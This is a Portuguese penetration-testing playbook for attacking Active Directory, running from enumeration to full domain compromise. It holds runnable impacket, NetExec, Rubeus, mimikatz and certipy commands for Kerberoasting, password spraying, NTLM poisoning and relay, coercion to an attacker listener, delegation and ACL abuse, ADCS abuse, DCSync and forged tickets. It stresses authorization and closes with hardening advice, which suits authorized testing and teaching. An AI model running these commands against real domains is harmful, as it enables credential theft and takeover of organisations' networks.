

# 🏰 Fase 09 — Active Directory

> [!info] Objetivo da fase
> Sair de **um host qualquer** (ou de um usuário de domínio de baixo privilégio) até **controle do domínio**: Domain Admin, Enterprise Admin, DCSync ou equivalente (acesso ao DC, ao `krbtgt`, ou a um caminho que o cliente aceite como prova).
> A regra do AD: **enumeração é 80% do trabalho**. O exploit quase sempre é `impacket`, `nxc` ou `mimikatz` rodando em cima de um caminho que o BloodHound mostrou.

> [!warning] AD não é um alvo só. É uma floresta com hierarquia de confiança.
> Todo movimento em AD gera log (4624/4625/4768/4769/4662/4728…) e pode ser detectado. Combine com o cliente o que é permitido (coerção de autenticação? spraying? DCSync?) antes de executar.

---

## 🎯 Quando entrar

Você entra nesta fase quando **qualquer** uma destas condições for verdadeira:

| Sinal | Por quê |
|-------|---------|
| Host ingressado em domínio (`whoami /fqdn`, `systeminfo` mostra `Domain:`) | Existe AD para atacar |
| Porta 88 (Kerberos), 389/636 (LDAP), 445 (SMB) no mesmo segmento | Controlador de domínio provável |
| DNS interno resolve nomes de domínio (`nslookup dc.<DOMINIO>`) | Infra corporativa |
| Credencial de domínio obtida (hash/senha/ticket) em qualquer host | Pivô para o domínio inteiro |
| Você já tem shell em host de TI/servidor | Sessões privilegiadas podem estar residindo nele |

**Não entre** se o escopo é apenas externo/web. AD sem autorização explícita é fora de escopo — e perigoso.

---

## 📥 Pré-requisitos

**Acesso e rede**

- Um foothold (shell) **ou** conectividade roteada até o segmento interno → ver [[Fase 08 - Pivoting e Tunneling]].
- DNS interno apontado para o DC, ou `-ns <DC>` nos tools do impacket. Kerberos **exige** nome, não IP.
- Relógio sincronizado com o DC (`sudo rdate -n <DC>` ou `ntpdate`); diferença > 5 min quebra Kerberos.

**Ferramentas no atacante (Linux)**

| Ferramenta | Para quê |
|-----------|----------|
| `impacket` (suite) | `GetNPUsers`, `GetUserSPNs`, `secretsdump`, `psexec`, `wmiexec`, `ntlmrelayx`, `getTGT` |
| `nxc` (NetExec) | Enum, spraying, módulos, execução |
| `bloodhound-python` + BloodHound GUI | Coleta e grafo do domínio |
| `kerbrute` | Enum de usuários e spraying via Kerberos (sem logon) |
| `Responder` / `mitm6` | Coleta de NTLM via LLMNR/NBT-NS/mDNS/IPv6 |
| `certipy` | Enumeração e abuso de ADCS |
| `bloodyAD` | ACL abuse e escrita em LDAP direta |
| `hashcat` | Quebrar TGS-REP (13100), AS-REP (18200), NetNTLMv2 (5600) |

**Ferramentas no alvo (Windows)**

| Ferramenta | Para quê |
|-----------|----------|
| `SharpHound.exe` | Coletor do BloodHound nativo (sem Python) |
| `Rubeus.exe` | Kerberos: asktgt, s4u, monitor, ptt |
| `PowerView.ps1` | Enum LDAP e ACL pelo PowerShell |
| `Powermad.ps1` | Criar conta de máquina, manipular atributos |
| `mimikatz.exe` | `sekurlsa`, `lsadump::dcsync`, golden/silver ticket |

**Conhecimento**

- Diferença entre **autenticação NTLM** e **Kerberos**; como um TGT/TGS funciona.
- O que é uma **ACL** de AD (`GenericAll`, `WriteDACL`, `WriteOwner`, `GenericWrite`, `ForceChangePassword`, `AddSelf`).
- O que é **delegação** (unconstrained, constrained, RBCD).

---

## 🪜 Passo a passo

### 1. Fixar o contexto do domínio

Antes de atacar, responda: qual domínio, qual DC, quem sou eu, em quais grupos estou, existem trusts?

**Do Linux (sem credencial):**

```bash
# Descobrir o nome do domínio pelo DNS/DC
nxc smb <IP_DC>                       # mostra o domain name no banner
nmap -p 88,389,445 -sV <IP_DC>        # confirma DC

# Com credencial de qualquer usuário:
nxc smb <IP_DC> -u <USUARIO> -p <SENHA> --pass-pol   # política de senha (chave p/ spraying)
nxc ldap <IP_DC> -u <USUARIO> -p <SENHA> --users --groups
```

**Do Windows (dentro do host):**

```powershell
whoami /all                     # usuário, grupos, privilégios — leia os grupos de domínio
whoami /fqdn                    # domínio\usuario
echo %LOGONSERVER%              # qual DC autenticou
nltest /dclist:<DOMINIO>        # controladores do domínio
nltest /domain_trusts /all_trusts /v   # trusts (direção, transitividade)
net user /domain <USUARIO>      # detalhes do usuário
net group "Domain Admins" /domain
```

> [!tip] Contexto salvo = reenumeração sem retrabalho
> Anote `domínio`, `DC`, `SID do domínio`, `usuário atual`, `grupos`, `trusts` na nota de engajamento. Tudo o que vem depois referencia isso.

---

### 2. Enumeração sem credencial

Sem usuário válido, o AD ainda vaza muito. Ordem: SMB null → RPC → LDAP anônimo → Kerberos (usuários) → LLMNR.

**SMB / RPC anônimo**

```bash
# Listar shares e, às vezes, usuários (null session)
nxc smb <IP_DC> -u '' -p '' --shares --users --groups

# Enumeração clássica completa
enum4linux-ng -A <IP_DC> -oY enum4linux.yaml

# RPC anônimo: puxar usuários, grupos e política
rpcclient -U "" -N <IP_DC>
# dentro do rpcclient:
#   enumdomusers        -> lista usuários + RIDs
#   enumdomgroups       -> lista grupos
#   getdompwinfo        -> política de senha
#   queryuser 0x1f4     -> detalhe do usuário pelo RID
```

**LDAP anônimo**

```bash
# Descobrir os naming contexts (se o bind anônimo for permitido)
ldapsearch -x -H ldap://<IP_DC> -s base namingcontexts
# Dump completo se anônimo for permitido
ldapsearch -x -H ldap://<IP_DC> -b "DC=<DOMINIO>,DC=<TLD>" '(objectClass=user)' sAMAccountName
```

**Enumeração de usuários via Kerberos (sem logon, sem lockout)**

```bash
# kerbrute valida usuários pelo erro KDC (não conta como logon falho)
kerbrute userenum -d <DOMINIO> --dc <IP_DC> usuarios.txt
# wordlist pronta: /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

**AS-REP Roasting (contas sem pré-autenticação)**

```bash
# Se existir conta com "Do not require Kerberos preauthentication",
# o KDC devolve um blob cifrado com a senha do usuário — offline crack.
GetNPUsers.py <DOMINIO>/ -dc-ip <IP_DC> -usersfile usuarios.txt \
  -format hashcat -outputfile asrep.hash -no-pass

# Crack
hashcat -m 18200 asrep.hash ~/wordlists/rockyou.txt
```

> [!danger] AS-REP Roasting com pré-autenticação habilitada retorna erro
> `KDC_ERR_PREAUTH_REQUIRED` = conta protegida (normal). Você só colhe o que estiver desprotegido — mas vale rodar contra a lista inteira: basta uma.

**Coleta de NTLM na rede — Responder / LLMNR**

```bash
# Envenena LLMNR/NBT-NS/mDNS e captura hashes NetNTLMv2 de quem erra o nome
sudo responder -I <INTERFACE> -wdv
# logs em /usr/share/responder/logs/ -> crackear:
hashcat -m 5600 <ARQUIVO_NetNTLMv2> ~/wordlists/rockyou.txt
```

> [!note] Responder só captura. Para *relay*, ver seção 8 (relay é muito mais poderoso que crack).
> `-w` liga proxy WPAD, `-d` responde DNS, `-v` verboso. Em redes com SMB signing obrigatório, o relay para SMB morre — mas LDAP/HTTP continuam.

---

### 3. Enumeração credenciada — o coração da fase

Com **um** usuário válido (mesmo sem privilégio) você mapeia o domínio inteiro.

**NetExec (rápido, do Linux)**

```bash
# Confirmar credencial em toda a rede de uma vez
nxc smb <CIDR> -u <USUARIO> -p <SENHA> --continue-on-success

# Coletar tudo que importa em um host
nxc smb <IP> -u <USUARIO> -p <SENHA> --shares --sessions --loggedon-users --groups --pass-pol

# LDAP: usuários, grupos, descrições (senhas em description é clássico)
nxc ldap <IP_DC> -u <USUARIO> -p <SENHA> --users --groups --password-not-required
nxc ldap <IP_DC> -u <USUARIO> -p <SENHA> -M get-desc-users
```

**PowerView (do Windows, via shell)**

```powershell
Import-Module .\PowerView.ps1

Get-NetDomain                                   # domínio atual
Get-NetDomainController                         # DCs
Get-NetUser | select samaccountname,description # usuários + descrições
Get-NetGroup -GroupName *admin*                 # grupos administrativos
Get-NetGroupMember -GroupName "Domain Admins"   # membros
Get-NetComputer -OperatingSystem *              # hosts
Get-NetComputer -Unconstrained                  # delegação irrestrita (minas de ouro)
Get-NetUser -TrustedToAuth                      # delegação restrita
Get-DomainTrust / Get-ForestTrust               # trusts
Find-LocalAdminAccess                           # onde meu usuário é admin local
Invoke-UserHunter                               # onde admin está logado AGORA
Get-NetGPO | select displayname                 # GPOs
Get-DomainObjectAcl -Identity <ALVO> -ResolveGUIDs | ? {$_.ActiveDirectoryRights -match "Write|GenericAll"}
```

**BloodHound — o mapa do domínio**

```bash
# Coleta via Python (Linux), com credencial de domínio
bloodhound-python -u <USUARIO> -p <SENHA> -d <DOMINIO> -ns <IP_DC> -c All --zip

# Alternativa: rodar o SharpHound no host comprometido
# .\SharpHound.exe -c All --zipfilename loot.zip
# Depois trazer o .zip e importar na GUI do BloodHound
```

No BloodHound, as queries que decidem o ataque:

| Query | Responde |
|-------|----------|
| Shortest Paths from Owned Principals | qual o caminho mais curto até Domain Admin |
| Find Principals with DCSync Rights | quem pode DCSync |
| Shortest Paths to Unconstrained Delegation Systems | onde estão as minas |
| Shortest Paths to Domain Admins from Kerberoastable Users | qual SPN rende admin |
| ACL edges em um nó | qual ACL abusar daqui |

> [!tip] A aresta do BloodHound tem pré-requisito
> `GenericAll`, `WriteDACL`, `ForceChangePassword`, `AddMember` etc. só funcionam se você **for** o principal de origem da seta. Confirme com `nxc`/`bloodyAD` antes de escrever o exploit no relatório.

---

### 4. Coleta de credenciais — Kerberoasting e AS-REP com credencial

**Kerberoasting**: qualquer usuário de domínio pode pedir um TGS para qualquer SPN. O TGS vem cifrado com o hash da conta de serviço → crack offline.

```bash
# Pedir os TGS de todas as contas com SPN
GetUserSPNs.py <DOMINIO>/<USUARIO>:<SENHA> -dc-ip <IP_DC> \
  -request -outputfile kerberoast.hash

# Crack: etype 23 (RC4) = 13100; etype 17/18 (AES) = 19600/19700 (muito mais lento)
hashcat -m 13100 kerberoast.hash ~/wordlists/rockyou.txt

# Do Windows, via PowerView:
# Get-DomainUser -SPN | select samaccountname,serviceprincipalname
# .\Rubeus.exe kerberoast /outfile:kerb.txt /nowrap
```

> [!warning] Contas de serviço com senha forte não caem
> Kerberoasting rende quando a senha é fraca (legado, `svc_*`, senha igual ao nome). Use wordlist de senhas corporativas + regras (`-r`) antes de desistir. AES (`msDS-SupportedEncryptionTypes`) é quase inviável offline — busque outra rota.

**Senhas em atributos e GPP**

```bash
# GPP: senhas de admin local deixadas em cpassword dentro do SYSVOL (MS14-025)
nxc smb <IP_DC> -u <USUARIO> -p <SENHA> -M gpp_password
nxc smb <IP_DC> -u <USUARIO> -p <SENHA> -M gpp_autologin
# Manual (PowerView): Get-GPPPassword  -> descriptografa a chave AES pública conhecida

# LAPS: senhas de admin local gerenciadas no AD
nxc ldap <IP_DC> -u <USUARIO> -p <SENHA> -M laps
# Windows LAPS (2023+): Get-LapsADPassword -Identity <HOST> -AsPlainText
# LAPS legado: Get-AdmPwdPassword -ComputerName <HOST>
```

> [!danger] Ler LAPS/GPP exige permissão de leitura no atributo
> `ms-Mcs-AdmPwd` / `msLAPS-Password` são protegidos por ACL. Só um grupo específico (ou quem tem `ExtendedRight`) consegue ler. Enumere a ACL antes de assumir que vai funcionar.

---

### 5. Password spraying e política de lockout

Spraying = poucas senhas contra muitos usuários. **Sempre** leia a política antes.

```bash
# Leia a política: lockout threshold e janela
nxc smb <IP_DC> -u <USUARIO> -p <SENHA> --pass-pol
# LockoutThreshold: 0 = sem lockout (spray livre)
# LockoutThreshold: 5 -> no máximo 3 tentativas por usuário por janela

# Spray via SMB (conta tentativa como logon real)
nxc smb <IP_DC> -u usuarios.txt -p '<SENHA>' --continue-on-success

# Spray via Kerberos (silencioso: sem logon, evita 4625 no host)
kerbrute passwordspray --dc <IP_DC> -d <DOMINIO> usuarios.txt '<SENHA>'
```

Senhas que valem tentar: `Season+Ano` (`Outono2026`, `Verão2026`), nome da empresa + `123`/`@123`, `Bem-Vindo1`, e o que o OSINT entregou ([Fase 02 - OSINT e Reconhecimento Externo]).

**Padrão de spray seguro:** 1 tentativa por usuário → espera a janela de lockout → próxima senha. Com threshold 5, dê 3-4 tentativas por usuário por hora e acompanhe 4740 (conta bloqueada).

---

### 6. Abuse de ACL — quando o BloodHound mostra a seta

Cenário: usuário comum tem direito de escrita sobre um objeto de maior privilégio. A exploração muda conforme a aresta.

| Aresta | O que dá | Como explorar |
|--------|----------|---------------|
| `ForceChangePassword` | Trocar a senha do alvo | `Set-DomainUserPassword` / `net rpc password` |
| `GenericAll` (usuário) | Tudo acima + setar SPN | `Set-DomainUserPassword` ou targeted Kerberoast |
| `GenericAll` (grupo) | Adicionar-se ao grupo | `Add-DomainGroupMember` |
| `GenericAll` (computador) | RBCD ou Shadow Credentials | ver seção 7 |
| `WriteDACL` | Conceder-se `GenericAll` no alvo | `Add-DomainObjectAcl -Rights All` |
| `WriteOwner` | Virar dono e depois WriteDACL | `Set-DomainObjectOwner` → `Add-DomainObjectAcl` |
| `GenericWrite` (usuário) | Setar SPN (Kerberoast alvo) ou logon script | `Set-DomainObject -Set @{serviceprincipalname=...}` |
| `AddSelf` / `AddMember` | Ingressar em grupo privilegiado | `net group <GRUPO> <USUARIO> /add /domain` |

```powershell
# PowerView: ForceChangePassword
$pw = ConvertTo-SecureString '<NOVA_SENHA>' -AsPlainText -Force
Set-DomainUserPassword -Identity <ALVO> -AccountPassword $pw -Verbose

# PowerView: GenericAll em grupo -> entrar em Domain Admins
Add-DomainGroupMember -Identity 'Domain Admins' -Members <USUARIO> -Verbose
# Confirma:
Get-DomainGroupMember -Identity 'Domain Admins' | select MemberName

# WriteDACL: dar GenericAll a mim mesmo no alvo
Add-DomainObjectAcl -TargetIdentity <ALVO> -PrincipalIdentity <USUARIO> -Rights All -Verbose
```

```bash
# Alternativa Linux: bloodyAD (LDAP direto, sem PowerShell)
bloodyAD -u <USUARIO> -p <SENHA> -d <DOMINIO> --host <IP_DC> set password <ALVO> '<NOVA_SENHA>'
bloodyAD -u <USUARIO> -p <SENHA> -d <DOMINIO> --host <IP_DC> add groupMember 'Domain Admins' <USUARIO>
```

**Targeted Kerberoast** (quando você tem `GenericWrite` sobre um usuário sem SPN): sete um SPN nele e rode Kerberoasting — o TGS cai com a senha dele.

```powershell
Set-DomainObject -Identity <ALVO> -Set @{serviceprincipalname='nonexistent/qualquer'} -Verbose
# Rubeus kerberoast /user:<ALVO> /nowrap  -> crack -> limpar o SPN depois
```

**Shadow Credentials** (alternativa limpa a RBCD): escreva uma chave em `msDS-KeyCredentialLink` do alvo e autentique com o certificado gerado.

```bash
certipy shadow auto -u <USUARIO>@<DOMINIO> -p <SENHA> -account <ALVO> -dc-ip <IP_DC>
# Devolve o hash NT do alvo; limpa o atributo no fim (-no-cleanup para manter)
```

---

### 7. Delegação — três sabores, três ataques

**Unconstrained (delegação irrestrita)** — o host guarda o TGT de quem se autentica nele, **em memória**. Se você é admin desse host e consegue forçar o DC a se autenticar nele, você captura o TGT do DC.

```bash
# Encontrar hosts com delegação irrestrita
nxc ldap <IP_DC> -u <USUARIO> -p <SENHA> --trusted-for-delegation
# Windows: Get-NetComputer -Unconstrained | select dnshostname

# Capturar: monitorar TGTs no host comprometido...
.\Rubeus.exe monitor /interval:5 /filteruser:<DC>$ /nowrap
# ...e forçar o DC a se autenticar (coerção) a partir do Linux:
coercer coerce -l <IP_ATACANTE> -t <IP_DC> -u <USUARIO> -p <SENHA> -d <DOMINIO>
# Testa PetitPotam/PrinterBug/DFSCoerce e outros métodos de uma vez
# Alternativa só PrinterBug: krbrelayx-printerbug '<DOMINIO>/<USUARIO>:<SENHA>@<IP_DC>' <IP_ATACANTE>
# Com o TGT do DC nas mãos: .\Rubeus.exe ptt /ticket:<BASE64>  -> DCSync
```

**Constrained (delegação restrita)** — a conta pode se passar por qualquer usuário **apenas** para um SPN específico. Se você controla essa conta (hash dela), pode forjar um TGS como Administrator.

```bash
# Encontrar contas com delegação restrita e seu SPN alvo
nxc ldap <IP_DC> -u <USUARIO> -p <SENHA> -M get-network
# Windows: Get-DomainUser -TrustedToAuth -Properties samaccountname,msds-allowedtodelegateto
```

```powershell
# Rubeus: S4U (protocol transition + S4U2Proxy) para se passar por Administrator
.\Rubeus.exe s4u /user:<SVC_CONTA> /rc4:<HASH_NT> /impersonateuser:Administrator `
  /msdsspn:cifs/<HOST_ALVO> /ptt
# Agora um dir \\<HOST_ALVO>\C$ funciona como Administrator
```

**RBCD (Resource-Based Constrained Delegation)** — o alvo (computador) diz quem pode se passar por usuários nele. Se você tem escrita em `msDS-AllowedToActOnBehalfOfOtherIdentity` do alvo, cria uma conta de máquina e aponta para ela.

```bash
# 1) Criar uma conta de máquina (MachineAccountQuota default = 10)
addcomputer.py '<DOMINIO>/<USUARIO>:<SENHA>' -dc-ip <IP_DC> \
  -computer-name 'ATTACK$' -computer-pass 'SenhaForte123!'
# 2) Configurar RBCD no alvo apontando para a conta criada
rbcd.py -delegate-from 'ATTACK$' -delegate-to '<ALVO>$' -action write \
  '<DOMINIO>/<USUARIO>:<SENHA>' -dc-ip <IP_DC>
# 3) Obter TGS em nome de Administrator
getST.py -spn cifs/<ALVO>.<DOMINIO> -impersonate Administrator \
  '<DOMINIO>/ATTACK$:SenhaForte123!' -dc-ip <IP_DC>
export KRB5CCNAME=Administrator@cifs_<ALVO>.<DOMINIO>@<DOMINIO>.ccache
secretsdump.py -k -no-pass <ALVO>.<DOMINIO>
```

> [!tip] MachineAccountQuota
> Se `ms-DS-MachineAccountQuota` = 0, você não cria conta de máquina. Alternativa: sequestrar uma conta de máquina existente que você já controle (ou usar Shadow Credentials).

---

### 8. Coerção e relay NTLM

Coerção = forçar uma máquina (idealmente o DC) a autenticar contra você. Relay = repassar essa autenticação para outro serviço, virando o usuário da máquina.

```bash
# Coerção: coercer (PetitPotam, PrinterBug, DFSCoerce etc. no mesmo wrapper)
coercer coerce -l <LISTENER> -t <IP_DC> -u <USUARIO> -p <SENHA> -d <DOMINIO>
krbrelayx-printerbug '<DOMINIO>/<USUARIO>:<SENHA>@<IP_DC>' <LISTENER>   # só PrinterBug

# Relay SMB -> LDAP do DC: cria conta de máquina / configura RBCD / dá DCSync
ntlmrelayx.py -t ldap://<IP_DC> --escalate-user <USUARIO> -smb2support

# Relay para ADCS (ESC8): captura o cert da máquina e autentica como ela
ntlmrelayx.py -t http://<CA>/certsrv/certfnsh.asp --adcs \
  --template DomainController -smb2support
# Depois: certipy auth -pfx <ARQUIVO>.pfx -dc-ip <IP_DC>  -> hash do DC$

# IPv6: mitm6 sequestra o DNS via DHCPv6 e alimenta o relay
sudo mitm6 -d <DOMINIO>
ntlmrelayx.py -6 -t ldaps://<IP_DC> -wh fakewpad.<DOMINIO> -l loot
```

> [!danger] Coerção pode derrubar serviço e é MUITO ruidosa
> PetitPotam/PrinterBug geram eventos de autenticação de máquina com destino inesperado. Só use com permissão explícita e avise o cliente do horário. Em ambiente sensível, prefira caminhos de ACL (silenciosos).

---

### 9. ADCS — o caminho mais curto em muitos domínios

Se existe Certificate Authority no domínio, enumere **sempre**: templates mal configurados dão Domain Admin em minutos.

```bash
# Enumeração completa de ADCS (usuário comum basta)
certipy find -u <USUARIO>@<DOMINIO> -p <SENHA> -dc-ip <IP_DC> -vulnerable -stdout
```

| ESC | Configuração | Abuso |
|-----|--------------|-------|
| ESC1 | Template permite `ENROLLEE_SUPPLIES_SUBJECT` + cliente autenticado pode inscrever | Pedir cert com UPN de Administrator |
| ESC2 | Template com `Any Purpose` / sem EKU | Cert serve para qualquer uso (client auth) |
| ESC3 | Enrollment Agent | Pedir cert em nome de outro usuário |
| ESC4 | Você tem `WriteDACL`/`WriteOwner` no template | Tornar o template vulnerável a ESC1 |
| ESC6 | `EDITF_ATTRIBUTESUBJECTALTNAME2` na CA | Qualquer template aceita SAN arbitrário |
| ESC8 | HTTP enrollment sem HTTPS/channel binding | Relay NTLM para a CA e obter cert de máquina/usuário |

```bash
# ESC1: obter cert como Administrator
certipy req -u <USUARIO>@<DOMINIO> -p <SENHA> -ca <CA> -template <TEMPLATE> \
  -upn administrator@<DOMINIO> -dc-ip <IP_DC>
# Usar o .pfx para extrair o hash NT do Administrator (PKINIT)
certipy auth -pfx administrator.pfx -dc-ip <IP_DC>
# Saída: hash NT -> pass-the-hash / DCSync
```

> [!note] Cenários ESC não são CVE
> São **configurações inseguras** catalogadas pela pesquisa "Certified Pre-Owned". Não invente CVE aqui; descreva a má configuração do template.

---

### 10. DCSync, pass-the-hash e execução remota

**DCSync** — com o direito `Replicating Directory Changes (All)`, você não precisa tocar no DC: pede os hashes via protocolo de replicação.

```bash
# Impacket: dumpar o domínio inteiro
secretsdump.py '<DOMINIO>/<USUARIO>:<SENHA>@<IP_DC>' -just-dc
# Só o krbtgt (para golden ticket) e o Administrator
secretsdump.py '<DOMINIO>/<USUARIO>:<SENHA>@<IP_DC>' -just-dc-user krbtgt
# Com hash (pass-the-hash) em vez de senha:
secretsdump.py -hashes :<NTHASH> '<DOMINIO>/<USUARIO>@<IP_DC>' -just-dc
```

```powershell
# Mimikatz (no host, se tiver privilégio de debug):
# lsadump::dcsync /domain:<DOMINIO> /user:<DOMINIO>\krbtgt
# lsadump::dcsync /domain:<DOMINIO> /all /csv
```

**Execução remota e movimento lateral**

| Ferramenta | Transporte | Quando usar |
|-----------|-----------|-------------|
| `psexec.py` | SMB + serviço | Rápido; cria serviço (ruidoso, artefato) |
| `wmiexec.py` | WMI (135/445) | Mais discreto que psexec |
| `smbexec.py` | SMB + serviço | Alternativa ao psexec |
| `atexec.py` | Task Scheduler | Execução agendada, saída por arquivo |
| `evil-winrm` | WinRM (5985/5986) | Shell interativo, upload/download |
| `nxc winrm` / `nxc smb --exec-method` | Vários | Disparo em lote pelo NetExec |

```bash
# Pass-the-hash com wmiexec (sem senha em claro)
wmiexec.py -hashes :<NTHASH> <DOMINIO>/<USUARIO>@<IP_ALVO>

# Overpass-the-hash: converter hash NT em TGT Kerberos (para ambientes que só aceitam Kerberos)
getTGT.py <DOMINIO>/<USUARIO> -hashes :<NTHASH> -dc-ip <IP_DC>
export KRB5CCNAME=<USUARIO>.ccache
nxc smb <IP_ALVO> -k -no-pass          # autentica por ticket

# Pass-the-ticket em Windows:
# .\Rubeus.exe asktgt /user:<USUARIO> /rc4:<NTHASH> /ptt
# klist   -> confirma o TGT na sessão
```

**Golden / Silver ticket (pós-DCSync)**

```powershell
# Golden ticket: TGT forjado com o hash do krbtgt -> qualquer usuário, qualquer serviço
# mimikatz: kerberos::golden /user:Administrator /domain:<DOMINIO> /sid:<SID_DO_DOMINIO> `
#   /krbtgt:<HASH_NT_KRBTGT> /ptt
# Silver ticket: TGS forjado com o hash da conta de SERVIÇO (não precisa do krbtgt)
# mimikatz: kerberos::golden /user:Administrator /domain:<DOMINIO> /sid:<SID> `
#   /target:<HOST> /service:cifs /rc4:<HASH_DA_CONTA_DE_MAQUINA> /ptt
```

> [!note] Golden ticket é persistência, não ataque
> Com o hash do `krbtgt` você forja TGTs indefinidamente até o domínio trocar a senha do krbtgt **duas vezes**. Só crie tickets se persistência estiver autorizada no RoE (ver [[Fase 11 - Pós-Exploração]]).

---

### 11. Trusts e ExtraSids

Se o alvo tem floresta/domínio pai ou trusts com outros domínios, a hierarquia de confiança pode virar escalada.

```powershell
# Mapear trusts e seu tipo
Get-DomainTrustMapping                    # PowerView: todos os trusts alcançáveis
nltest /domain_trusts /all_trusts /v      # Windows nativo
# SID do grupo Enterprise Admins / Domain Admins do outro domínio:
Get-DomainGroup -Identity "Enterprise Admins" -Domain <DOMINIO_PAI> | select objectsid
```

```bash
# Chave de confiança inter-realm (inter-realm TGT key)
secretsdump.py '<DOMINIO>/<USUARIO>:<SENHA>@<IP_DC>' -just-dc-user '<DOMINIO_ALVO>$'
```

```powershell
# ExtraSids: golden ticket com SID History apontando para Enterprise Admins do domínio pai
# Requer: hash do krbtgt do SEU domínio + SID do EA do domínio PAI + trust key
# mimikatz: kerberos::golden /user:Administrator /domain:<DOMINIO_FILHO> /sid:<SID_FILHO> `
#   /sids:<SID_ENTERPRISE_ADMINS_PAI> /rc4:<KRBTGT_FILHO> /ptt
```

> [!warning] Trust não é passe livre
> SID filtering bloqueia SIDs do outro domínio por padrão. ExtraSids funciona em cenários específicos (trust com SID history habilitado, floresta sem filtro). Confirme o tipo de trust antes de escrever exploit no relatório.

---

### 12. Hardening e auditoria (para o relatório)

O relatório precisa de recomendações concretas. As que mais importam no AD:

| Risco explorado | Correção |
|-----------------|----------|
| Kerberoasting | Senhas de serviço longas (25+), gMSA, monitorar 4769 com RC4 |
| AS-REP Roasting | Exigir pré-autenticação em todas as contas |
| DCSync indevido | Auditar quem tem `Replicating Directory Changes`, remover herança |
| RBCD/Shadow Creds | Restringir escrita em compute objects; `ms-DS-MachineAccountQuota` = 0 |
| Delegação irrestrita | Remover de todos os hosts; marcar contas privilegiadas como "sensitive and cannot be delegated" |
| ADCS ESC | Auditar templates (`certipy find -vulnerable`), exigir aprovação, corrigir EKUs |
| NTLM/LLMNR | Desabilitar LLMNR/NBT-NS, exigir SMB signing + LDAP signing/channel binding |
| Senhas fracas | LAPS para admin local, política de lockout, MFA para contas privilegiadas |
| Golden ticket | Rotacionar a senha do krbtgt duas vezes; usar tier model |

Ferramentas de auditoria defensiva: `certipy find`, BloodHound (queries "high risk"), PingCastle, `nxc ldap --pass-pol`.

---

## 🧰 Ferramentas

| Ferramenta | Comando-chave | O que faz |
|-----------|---------------|-----------|
| NetExec (`nxc`) | `nxc smb/ldap/winrm/mssql` | Enum, spraying, execução, módulos |
| Impacket | `GetNPUsers`, `GetUserSPNs`, `secretsdump`, `psexec`, `ntlmrelayx` | Suite completa de protocolos AD |
| BloodHound | `bloodhound-python -c All` | Grafo de caminhos de ataque |
| SharpHound | `.\\SharpHound.exe -c All` | Coletor nativo |
| PowerView | `Get-NetUser`, `Find-LocalAdminAccess` | Enum LDAP via PowerShell |
| Rubeus | `asktgt`, `s4u`, `kerberoast`, `monitor` | Kerberos puro |
| kerbrute | `userenum`, `passwordspray` | Enum/spray via Kerberos |
| Responder | `responder -I <IF> -wdv` | Envenenamento LLMNR/NBT-NS |
| mitm6 | `mitm6 -d <DOMINIO>` | Sequestro de DNS IPv6 |
| certipy | `find`, `req`, `auth`, `shadow` | ADCS e Shadow Credentials |
| bloodyAD | `set password`, `add groupMember` | ACL abuse via LDAP |
| mimikatz | `sekurlsa`, `lsadump::dcsync`, `kerberos::golden` | Credenciais e tickets |
| hashcat | `-m 13100/18200/5600` | Crack offline |

---

## 🔀 Árvore de decisão



---

## 📤 Evidências

O que guardar por achado (é isso que vira relatório):

| Evidência | Exemplo |
|-----------|---------|
| Comando exato + saída | `GetUserSPNs.py ... -request` com os SPNs listados |
| Hash/ticket obtido | Arquivo `kerberoast.hash` (sem a senha quebrada em claro) |
| Caminho no BloodHound | Print da query "Shortest Path from Owned" + texto das arestas |
| Screenshot do impacto | `whoami /all` mostrando Domain Admin; `dir \\DC\C$` |
| Timestamp | Início e fim de cada ação, com fuso horário |
| Host de origem | De onde você executou (para correlacionar com logs) |

> [!info] Não é preciso entregar hashes de todos os usuários
> Prove o impacto com um item representativo (ex.: hash do `krbtgt` **mascarado** ou `Domain Admins` obtido) e descreva o método. Reduza dados pessoais.

---

## 🕳️ Pegadinhas

| Pegadinha | Realidade |
|-----------|-----------|
| BloodHound marca a aresta, então é só rodar o exploit | A aresta exige que **você** seja o principal de origem; confirme a ACL real |
| Todo Kerberoast quebra | Contas com AES e senha longa não caem em wordlist |
| Spraying sem ler política | `LockoutThreshold` baixo + você = domínio inteiro bloqueado |
| Responder em rede com SMB signing | Hash é capturado, mas o crack pode ser inviável; considere relay |
| Coerção "sempre funciona" | DCs patchados (PetitPotam/PrinterBug) e coerção é ruidosa |
| DCSync com qualquer admin | Precisa do **direito de replicação**, não só ser Domain Admin |
| Golden ticket = objetivo cumprido | É persistência; só faça se autorizado |
| Responder e mitm6 rodando ao mesmo tempo | Conflitam por DNS/portas; escolha um |
